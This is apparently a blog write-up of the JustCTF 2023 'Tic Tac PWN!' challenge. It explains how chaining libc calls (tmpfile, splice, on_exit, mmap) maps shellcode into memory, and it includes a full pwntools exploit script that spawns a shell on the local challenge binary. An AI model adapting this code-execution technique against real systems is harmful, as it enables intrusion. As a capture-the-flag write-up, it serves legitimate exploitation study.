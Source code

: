 ```yaml
---
title: "[JustCTF-2023] Tic Tac PWN!"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue
I didn't solve this challenge, this is an after game reproducing write-up.

The solution is from my teammates @in1t.

# Challenge
- We are allowed to execute arbitrary libc functions (not starting with `_`)
- All parameters only have 4 bytes
- There is a check function to check if we have allocated memory less than 0x100000000. 

# on_exit

Can we register more than one function by using `on_exit`?
I wrote a demo and got the answer: 

```c
#include <stdio.h>
int func1(){
    puts("1");
}
int func2(){
    puts("2");
}
int main(){
on_exit(func1);
on_exit(func2);
}
```
The result of the above code is `2\n1\n` which means we can register multiple functions and the execution order is "FILO".


# Solution

Ideas:
- Even if we `exit` because of the function exit, we can still use `on_exit` to register a function before `_exit`
- so the last part of our exploit script should be `call(on_exit)+call(mmap)`
- Before creating the memory, we can't prepare our shellcode on it, but we can map a file to memory

Solution:
- call `tmpfile` to create an fd
- call `splice` to write our shellcode to the fd
- call `on_exit` to register a function before `_exit`
- call `mmap` to map the tmpfile to memory

# Expoit
```py
from pwn import *
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

p = process(["./rpc_server"], env={'LD_PRELOAD':'./rpc_tictactoe.so'})
ru      = lambda a:     p.readuntil(a)
def call(func,arg1=0,arg2=0,arg3=0,arg4=0,arg5=0,arg6=0):
    p.sendline(f'x:{func} '.encode())
    p.sendline(f'{arg1} {arg2} {arg3} {arg4} {arg5} {arg6}'.encode())
sh = asm(shellcraft.sh())
call("tmpfile")
ru("RPC\n")
call("splice",0,0,3,0,len(sh),0)
p.send(sh)
ru("RPC\n")
call("on_exit",0x10000,0)
ru("RPC\n")
call("mmap",0x10000,0x1000,7,0x1,3,0)
ru("RPC\n")
p.interactive()
```

# Epilogue

I learned some interesting functions: `tmpfile`, `splice`, and `on_exit`.
All parameters of them are less than 4 bytes, we can use them when the registers are limited.


# reference
tmpfile: https://man7.org/linux/man-pages/man3/tmpfile.3.html
splice: https://man7.org/linux/man-pages/man2/splice.2.html
on_exit: https://man7.org/linux/man-pages/man3/on_exit.3.html
mmap: https://man7.org/linux/man-pages/man2/mmap.2.html